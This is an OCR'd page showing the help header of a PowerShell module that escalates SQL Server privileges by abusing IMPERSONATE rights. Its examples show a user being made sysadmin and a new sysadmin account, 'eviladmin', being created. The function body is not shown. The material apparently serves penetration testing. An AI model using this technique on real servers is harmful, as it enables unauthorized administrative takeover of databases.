 > Invoke-SqlServer-Escalate-ExecuteAs.psm1

    function Invoke-SqlServer-Escalate-ExecuteAs
    {
        <#
        .SYNOPSIS
        This script can be used escalate privileges if the IMPERSONATION privilege has been assigned to the user.

        .DESCRIPTION
        This script can be used escalate privileges if the IMPERSONATION privilege has been assigned to the user.
        In most cases this results in additional data access, but in some cases it can be used to gain sysadmin
        privileges.  This script can also be used to add a new sysadmin instead of escalating the privileges of
        the existing user.  

        .EXAMPLE
        Adding the current user to the syadmin role if the user has permissions to impersonate the sa account.

        PS C:\> Invoke-SqlServer-Escalate-ExecuteAs -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance SQLServer1\SQLEXPRESS
        [*] Attempting to Connect to SQLServer\SQLEXPRESS as myappuser...
        [*] Connected.
        [*] Enumerating users that myappuser can impersonate...
        [*] 3 accounts can be impersonated:
        [*] - user2
        [*] - superuser
        [*] - sa
        [*] Checking if any of are sysadmins...
        [*] - user2 - NOT sysadmin
        [*] - superuser - NOT sysadmin
        [*] - sa - sysadmin!
        [*] Attempting to add myappuser to the sysadmin role via impersonation...
        [*] Verifying that myappuser was added to the sysadmin role...
        [*] Success! - myappuser is now a sysadmin.
        [*] All done.

        .EXAMPLE
        Creating a new sysadmin as a user with permissions to impersonate the sa account.

        PS C:\> Invoke-SqlServer-Escalate-ExecuteAs -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance SQLServer1\SQLEXPRESS -NewUser eviladmin -NewPass MyPassword!
        [*] Attempting to Connect to SQLServer\SQLEXPRESS as myappuser...
        [*] Connected.
        [*] Enumerating users that myappuser can impersonate...
        [*] 3 accounts can be impersonated:
        [*] - user2
        [*] - superuser
        [*] - sa
        [*] Checking if any of are sysadmins...
        [*] - user2 - NOT sysadmin
        [*] - superuser - NOT sysadmin
        [*] - sa - sysadmin!
        [*] Attempting to create and add eviladmin to the sysadmin role via impersonation...
        [*] Verifying that eviladmin was added to the sysadmin role...
        [*] Success! - eviladmin is now a sysadmin.
        [*] All done.
